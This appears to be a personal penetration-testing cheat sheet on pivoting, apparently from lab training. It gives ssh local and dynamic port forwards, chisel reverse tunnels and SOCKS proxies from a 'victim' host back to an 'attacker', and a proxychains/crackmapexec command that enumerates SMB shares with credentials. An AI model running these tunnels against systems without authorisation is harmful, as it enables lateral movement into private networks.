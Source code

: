 

# Port Forwarding & Tunneling
--------

### Local Portforward
- Forward a single port from our machine to the victim machine.
A web server running on victim machine's port 8888 can be accessed locally on our machine's port 4444
```bash
ssh -L 4444:2.2.2.2:8888 user@2.2.2.2
```

Using **chisel**
```bash
./chisel_linux server -p 8080 -reverse
```

```cmd
chis.exe client 192.168.49.197:8080 R:8001:127.0.0.1:80 
```

Client makes a connection to chisel server running on port 8080 and forwards localhost 80 on victim machine to remote 8081 (attacker 8081)

----------------------

### Dynamic Portforward
Forwarding all traffic from our machine to the victim using another compromised machine as tunnel. (using socks proxy)
For use w proxychains.

Using **ssh**
```bash
ssh -N -D 127.0.0.1:1080 sean@10.11.1.251
```

where 1080 is the IP address where socks5 proxy (proxychains) is running.

#### SOCKS5 + Chisel
- Set up  socks5 proxy in proxychains conf
Server:
```bash
./chisel_linux server -p 8080 -reverse
```

Client:
```cmd
.\chisel.exe client 10.10.10.10:8080 R:socks
```

Now use proxychains and cme to access shares:
```bash
proxychains cme smb 192.168.137.138 -u cbbn -p something --shares
```

https://blog.lukasec.ch/posts/pivoting.html

-------------


- [ ] include stuff from netsh!!!!!!
https://porterhau5.com/blog/native-port-forwarding-windows/

